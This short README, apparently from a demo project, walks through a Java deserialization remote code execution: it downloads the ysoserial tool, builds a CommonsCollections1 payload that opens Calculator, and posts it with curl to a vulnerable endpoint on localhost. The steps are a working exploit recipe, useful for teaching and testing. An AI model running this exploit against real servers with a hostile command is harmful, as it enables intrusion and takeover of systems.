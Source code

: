 # Remote Code Execution Demo

## How To: Exploit vulnerability to perform RCE 

1. Download ysoserial.jar
```
curl -o ysoserial.jar https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT-b7d0f27b46-1/ysoserial-master-SNAPSHOT-b7d0f27b46-1.jar
```
2. Generate malicious payload
```
java -jar --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED ysoserial.jar CommonsCollections1 "open -a Calculator" > payload.bin
```
3. Send the payload to the vulnerable endpoint
```
curl -X POST http://localhost:8080/vulnerable --data-binary @payload.bin -H 'Content-Type: application/octet-stream'
```
